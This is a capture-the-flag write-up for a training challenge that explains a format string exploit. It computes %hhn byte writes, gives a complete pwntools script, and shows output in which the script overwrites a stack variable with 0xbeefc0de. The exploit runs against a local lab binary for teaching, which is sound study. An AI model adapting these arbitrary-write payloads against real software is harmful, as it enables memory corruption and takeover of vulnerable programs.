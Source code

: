 # 11_format_var_targetOverwrite Writeup

## Steps:
1. Run chall. This is very similar to 10 but we want to set the target variable to a sepecific value now.
```
$ ./chall 

Your goal is to modify the variable @ 0x7ffddba01118 to equal 0xbeefc0de

This exercises is similar to the previous. You will notice a canary, but shouldn't have to worry about it!

0x7ffddba01090: 0x0000000000000000 0x0000000000000000 
0x7ffddba010a0: 0x0000000000000000 0x0000000000000000 
0x7ffddba010b0: 0x0000000000000000 0x0000000000000000 
0x7ffddba010c0: 0x0000000000000000 0x0000000000000000 
0x7ffddba010d0: 0x0000000000000000 0x0000000000000000 
0x7ffddba010e0: 0x0000000000000000 0x0000000000000000 
0x7ffddba010f0: 0x0000000000000000 0x0000000000000000 
0x7ffddba01100: 0x0000000000000000 0x0000000000000000 
0x7ffddba01110: 0xffffffffffffffff 0x00000000deadbeef 

Enter input: AAAA
AAAA

0x7ffddba01090: 0x0000000a41414141 0x0000000000000000 
0x7ffddba010a0: 0x0000000000000000 0x0000000000000000 
0x7ffddba010b0: 0x0000000000000000 0x0000000000000000 
0x7ffddba010c0: 0x0000000000000000 0x0000000000000000 
0x7ffddba010d0: 0x0000000000000000 0x0000000000000000 
0x7ffddba010e0: 0x0000000000000000 0x0000000000000000 
0x7ffddba010f0: 0x0000000000000000 0x0000000000000000 
0x7ffddba01100: 0x0000000000000000 0x0000000000000000 
0x7ffddba01110: 0xffffffffffffffff 0x00000000deadbeef 

You failed to modify the target variable...
```
2. Split `0xbeefc0de` into its individual bytes and write them least significant to most significant.
   To do this, we take into account the number of characters already written to calculate how many more to have the target number printed.

   If the previous value > current value, add a 1 in front of the current value. %_hhn only writes 1 byte so the extra will be ignored.
- 1st: `0xde = 222`
- 2nd: `0x1c0 - 0xde = 226`
- 3rd: `0xef - 0xc0 = 47`
- 4th: `0x1be - 0xef = 207`
4. Write the payload outline 
- `%222c%__$lln` --> lln writes 8 bytes, effectively writing 0xde and setting other bytes to 0s
- `%226c%__$hhn` --> hhn writes the rest 1 byte at a time
- `%47c%__$hhn`
- `%207c%__hhn`
The lengths of the instructions are `12 + 12 + 11 + 12 = 47`.
Thus we need 1 byte of padding to write the addresses in their own 8-byte values, putting the addresses starting at 12 because the instructions fill stack 5-11 since `48/8 = 6` and `5+6 = 11`.
5. Finish the payload with the addresses and fill in the stack locations. Since each value is 1 byte, increment the address by 1 each time.
```
from pwn import *

target = process('./chall')

target.recvuntil(b"variable @ ")
addr = target.recvuntil(b" ")[:-1].strip().decode()
addr = int(addr, 16)
log.info(hex(addr))


payload = b"%222c%12$lln"
payload += b"%226c%13$hhn"
payload += b"%47c%14$hhn"
payload += b"%207c%15$hhn"
payload += b"A"
payload += p64(addr)+p64(addr+1)+p64(addr+2)+p64(addr+3)

target.sendline(payload)

s = target.recvall().decode('latin-1')
print(s)
```

## Solution:
```
$ python3 exploit.py
[+] Starting local process './chall': pid 83310
[*] 0x7ffdf5aaff08
[+] Receiving all data: Done (2.19KB)
[*] Process './chall' stopped with exit code 0 (pid 83310)
to equal 0xbeefc0de

This exercises is similar to the previous. You will notice a canary, but shouldn't have to worry about it!

0x7ffdf5aafe80: 0x0000000000000000 0x0000000000000000 
0x7ffdf5aafe90: 0x0000000000000000 0x0000000000000000 
0x7ffdf5aafea0: 0x0000000000000000 0x0000000000000000 
0x7ffdf5aafeb0: 0x0000000000000000 0x0000000000000000 
0x7ffdf5aafec0: 0x0000000000000000 0x0000000000000000 
0x7ffdf5aafed0: 0x0000000000000000 0x0000000000000000 
0x7ffdf5aafee0: 0x0000000000000000 0x0000000000000000 
0x7ffdf5aafef0: 0x0000000000000000 0x0000000000000000 
0x7ffdf5aaff00: 0xffffffffffffffff 0x00000000deadbeef 

Enter input:                                                                                                                                                                                                                                                                                                                                                                                                                                                               Q                                              \x08                                                                                                                                                                                                              \x00A\x08ÿªõý\x7f
0x7ffdf5aafe80: 0x3231256332323225 0x363232256e6c6c24 
0x7ffdf5aafe90: 0x6e68682433312563 0x2434312563373425 
0x7ffdf5aafea0: 0x63373032256e6868 0x416e686824353125 
0x7ffdf5aafeb0: 0x00007ffdf5aaff08 0x00007ffdf5aaff09 
0x7ffdf5aafec0: 0x00007ffdf5aaff0a 0x00007ffdf5aaff0b 
0x7ffdf5aafed0: 0x000000000000000a 0x0000000000000000 
0x7ffdf5aafee0: 0x0000000000000000 0x0000000000000000 
0x7ffdf5aafef0: 0x0000000000000000 0x0000000000000000 
0x7ffdf5aaff00: 0xffffffffffffffff 0x00000000beefc0de 

Congrats! You modified the target variable!
```
          
